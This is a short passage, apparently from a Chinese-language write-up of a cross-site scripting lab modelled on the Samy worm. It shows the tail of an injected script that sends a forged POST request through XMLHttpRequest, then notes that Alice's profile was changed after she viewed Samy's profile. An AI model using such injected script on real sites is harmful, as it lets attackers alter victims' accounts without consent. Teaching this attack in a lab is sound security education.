 ```html
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

<img src="./../assets/post/images/8mB5kxCUr2JfwTL.png" alt="image-20210720182021143" style="zoom:67%;" />

登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了

<img src="./../assets/post/images/eTE483igxpwtObP.png" alt="image-20210720181926895" style="zoom:67%;" />
